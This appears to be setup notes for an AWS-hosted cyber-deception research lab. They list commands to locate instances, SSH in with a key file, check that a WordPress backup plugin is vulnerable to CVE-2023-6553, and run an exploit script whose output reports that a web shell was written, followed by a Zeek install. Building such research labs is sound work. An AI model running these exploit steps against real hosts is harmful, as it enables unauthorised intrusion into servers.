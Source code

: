 - get controller IP
```
aws ec2 describe-instances \
  --filters "Name=tag:Name,Values=Controller" \
  --query "Reservations[].Instances[].PublicIpAddress" \
  --output text
```

- get internal IPs
```
aws ec2 describe-instances \
  --query 'Reservations[*].Instances[*].PrivateIpAddress' \
  --output text
```

- ssh into controller
```
chmod 400 RL4Deception.pem
ssh -i Network_tf/RL4Deception.pem ubuntu@3.148.118.121
```

- copy files from local to the controller, e.g., hosts.txt
```
scp -i Network_tf/RL4Deception.pem hosts.txt ubuntu@3.148.118.121:/home/ubuntu/
```

- verify SSH connectivity to all hosts
```
./checkSSH.sh 
```

```
📡 Verifying SSH connectivity to all hosts as 'ubuntu'...

IP Address      Status    
----------      ------    
10.0.1.204      ✅
10.0.2.87       ✅
10.0.2.226      ✅
10.0.3.151      ✅
10.0.3.65       ✅
10.0.3.136      ✅
10.0.3.67       ✅
```

- verify the existence of CVE-2023-6553 on PublicWeb1

```
ssh -i ~/RL4Deception.pem ubuntu@10.0.1.204
ls -l /var/www/html/wp-content/plugins/
grep -i version /var/www/html/wp-content/plugins/backup-backup/backup-backup.php
```

```
   *     Version: 1.3.7
  if (!defined('BMI_VERSION')) {
    define('BMI_VERSION', '1.3.7');
```

- exploit the backup vulnerability at PublicWeb1

```
cd Attacker/CVE-2023-6553/
python3 -m venv venv && source venv/bin/activate
pip install -r requirements.txt
python exploit.py -u http://3.144.10.220
```

```
(venv) yinuodu@S3Ds-MacBook-Pro-10 CVE-2023-6553 % python exploit.py -u http://3.144.10.220      

http://3.144.10.220 is vulnerable to CVE-2023-6553
Initiating shell deployment. This may take a moment...
Writing... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
Shell written successfully.
# 
```

- install Zeek
```
sudo apt update -y
sudo apt install -y wget gnupg lsb-release
echo 'deb http://download.opensuse.org/repositories/security:/zeek/xUbuntu_22.04/ /' | sudo tee /etc/apt/sources.list.d/security:zeek.list
curl -fsSL https://download.opensuse.org/repositories/security:zeek/xUbuntu_22.04/Release.key | gpg --dearmor | sudo tee /etc/apt/trusted.gpg.d/security_zeek.gpg > /dev/null
sudo apt update
sudo apt install zeek-6.0
```